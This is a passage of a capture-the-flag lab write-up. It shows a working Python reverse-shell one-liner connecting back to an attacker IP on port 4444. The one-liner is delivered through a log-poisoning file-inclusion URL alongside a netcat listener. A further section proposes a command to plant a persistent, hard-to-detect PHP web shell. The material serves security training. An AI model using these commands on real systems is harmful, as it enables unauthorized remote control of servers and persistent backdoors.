

[Payload all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) has some great tools on there, one of them being a [python_reverse_shell](../../../../Knowledge%20Base/Exploitation/Reverse%20Shells/Python/python_reverse_shell.py) that works on this system (after several tries). With some quick modifications and a listener on our hots machine, we can obtain a semi-stable shell. 

***On your host machine***
```
ip a # To find the tun0 IP

nc -lvnp 4444
```

***In the target URL after `&cmd=`***
```
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.2.58.140",4444));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

***Full command in the URL***
```
http://aoc6.com/index.php?err=php://filter/resource=../../../../../../var/www/html/includes/logs/app_access.log&cmd=python%20-c%20%27a=__import__;b=a(%22socket%22);p=a(%22subprocess%22).call;o=a(%22os%22).dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect((%2210.2.58.140%22,4444));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p([%22/bin/sh%22,%22-i%22])%27
```

And we have an interactive shell. 



Congratulations on completing the box! We were not required to get a reverse shell on the box, but from here, we can continue to solve the [Bonus](#Bonus) challenge if you'd like. 

As a side note, enumerating some files here yielded the actual `JSON` file that contained the third flag. You can find this in the `sensitive-data` directory. 



##### Extra
> I could not get the command below to work. The file `backdoor.php` was created, but I cannot seem to access the code. I have tried URL-encoding the payload to no avail. Maybe you can get it to work?``

`http://aoc6.com/index.php?err=php://filter/resource=./includes/logs/app_access.log&cmd=echo '<php? echo 'n0_ware on your server    ';system($_GET['cmd']);?>' > backdoor.php`

What I believe this should do is create a file `backdoor.php` on the server root, allowing us a much more clean backdoor that is persistent and might go undetected on the server. 

Let me know if you can get this to work!
</br>
</br>
</br>- 
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
